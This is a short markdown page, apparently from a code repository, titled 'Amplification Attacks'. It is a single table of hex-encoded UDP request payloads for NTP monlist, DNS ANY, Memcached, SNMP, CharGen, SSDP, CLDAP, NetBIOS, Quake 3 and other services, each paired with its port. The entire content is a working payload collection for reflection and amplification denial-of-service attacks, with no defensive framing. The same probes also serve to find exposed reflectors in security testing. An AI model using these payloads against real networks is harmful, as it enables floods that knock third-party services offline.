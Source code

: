 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974656d730d0a` | 
|**SNMP**|  system description field using community string public |  |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**SNMP**| getbulkrequest target snmpv2 | 161|`302202010104067075626c6963a515020469a8755102010002010a300730050601010500` |
|**CharGen**| trigger response containing random ASCII chars| 19 |`0a` |
|**RIPv1** | malformed request | 520 |`010100000000000000000000000000000000000000001000`|
|**QOTD**| trigger a quote | 17 | `0a`|
|**SSDP**| trigger ssdp:all responses from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310d0a486f73743a3233392e3235352e3235352e3235303a313930300d0a53543a737364703a616c6c0d0a4d616e3a22737364703a646973636f766572220d0a4d583a310d0a`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
|**NETBIOS**| NBSTAT query to get status | 137 | `e5d80000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001`|
|**Quake 3**| Get Status from Quake 3 server |27960|`ffffffff67657473746174757310`|
